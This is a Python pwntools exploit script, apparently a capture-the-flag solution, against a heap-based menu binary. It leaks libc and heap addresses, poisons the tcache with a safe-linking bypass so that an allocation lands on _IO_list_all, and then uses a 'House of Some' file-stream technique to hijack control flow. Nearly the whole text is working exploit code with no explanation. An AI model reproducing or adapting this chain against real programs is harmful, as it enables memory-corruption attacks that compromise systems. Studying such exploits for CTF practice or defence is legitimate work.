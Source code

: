 ```python
	
    # skip the last chunk #30
    edit(29, b'asd', b'a' * 8 + b'\x70')

    delete(3)

    add(b'asd', b'asd') # 32

    show()

    io.recvuntil(b'\xe0')
    libc.address = u64((b'\xe0' + io.recv(5)).ljust(8, b'\x00')) - 0x219ce0
    success(hex(libc.address))

    io.recvuntil(b'a' * 8)
    heap_base = u64(io.recv(6).ljust(8, b'\x00')) - 0x870
    success(hex(heap_base))
    
    """ TCACHE ATTACK """
    delete(29)
    delete(32)
    edit(2, b'asd', b'a' * 8 + b'\x28')
    
    edit(0x31, p64(reveal_ptr(libc.symbols['_IO_list_all'] - 0x10, heap_base + 0x330)), b'asd')
    edit(2, b'asd', b'a' * 8 + b'\x60')

    fsop = heap_base + 0x3b0
    success(hex(fsop))
    
    add(b'asd', b'asd') # 33
    add(b'a' * 8 + p64(fsop), b'asd') # 34
    
    """ HOUSE OF SOME """
    def write_addr(pad: bytes, base = fsop):
        blocks = len(pad) // 0x30
        if len(pad) % 0x30 != 0: blocks += 1
        pad = pad.ljust(blocks * 0x30, b'\x00')
        idx = blocks - 1

        while idx >= 0:
            block = pad[0x30 * idx : 0x30 * (idx + 1)]
            # 0x18 ~ 0x30
            edit(2, b'asd', b'a' * 8 + p64(base + idx * 0x30 + 0x10))
            edit(idx + 6, block[0x18:0x28], block[0x28:0x30])
            # 0x0 ~ 0x18
            edit(2, b'asd', b'a' * 8 + p64(base + idx * 0x30 - 0x8))
            edit(0x33, block[0:0x10], block[0x10:0x18])
            idx -= 1

    hos = HouseOfSome(libc, fsop)
    hos.controled_addr += hos.hoi_read_file_length

    pad = hos.hoi_read_file_template(hos.controled_addr, 0x400, hos.controled_addr, 0)
    write_addr(pad)
    
    # DEBUG('b * read')
    io.sendlineafter(b'Choice', b'5')
    io.recvuntil(b'! \n')
    
    hos.bomb(io)
    pass

exp()
```